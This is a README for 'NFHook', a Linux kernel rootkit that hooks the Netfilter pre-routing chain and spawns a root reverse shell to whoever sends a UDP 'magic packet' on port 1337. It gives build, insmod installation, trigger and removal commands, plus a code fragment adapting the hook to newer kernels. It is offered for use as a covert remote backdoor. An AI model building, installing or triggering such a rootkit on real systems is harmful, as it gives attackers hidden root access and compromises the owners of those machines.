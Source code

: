 # NFHook: NetFilter Hooking rootkit

### No longer original,Modified by me to specifically work with my kernel version,
### which was by the time I wrote this, 5.9.1 on Arch.



This rootkit registers a hook in the NetFilter pre-routing chain with high
priority, that is all incoming packets get through this hook first.

Once a "magic packet" is received (UDP packet on port 1337), a root reverse shell is
spawned back to the requester on the very same port.

Make sure you have un reverse shell script in `/usr/bin/reverse_shell.sh`

## Compilation ##
```
	$ make
```

## Installation ##
```
	$ sudo insmod nfhook.ko
```

## Usage ##
```
	$ echo "Hello world" | nc -u $target 1337
```

## Removal ##
```
	$ sudo rmmod nfhook
```

## Disclaimer ##

This is an experimental rootkit. Use it at your own risks.


# Modifications: #




# nfhook.c
      (...)
      // nf_register_hook(&rk_pre_routing);
      // nf_unregister_hook(&rk_pre_routing);
      
      // To
      nf_register_net_hook(&init_net,&rk_pre_routing);
      nf_unregister_net_hook(&init_net,&rk_pre_routing);
      
      
      
## References I learned from:

https://elixir.free-electrons.com/linux/v4.13.16/source/net/core/net_namespace.c#L37

https://elixir.bootlin.com/linux/latest/source/include/linux/netfilter.h#L177

https://www.linuxjournal.com/article/7184
